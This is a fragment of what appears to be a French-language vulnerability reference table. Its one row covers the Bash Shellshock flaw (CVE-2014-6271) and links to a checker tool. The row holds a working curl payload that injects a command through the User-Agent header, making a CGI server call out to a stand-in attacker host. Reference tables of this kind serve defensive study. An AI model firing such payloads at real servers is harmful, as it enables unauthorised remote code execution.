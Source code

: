 | CVE-2014-6271 | Bash Shellshock | `curl -H 'User-Agent: () { :;}; /bin/bash -c "curl http://attacker.com"' http://cible/cgi-bin/test.sh` | SSRF et RCE via injection dans Bash CGI. | [https://github.com/hannob/bashcheck](https://github.com/hannob/bashcheck) |

---
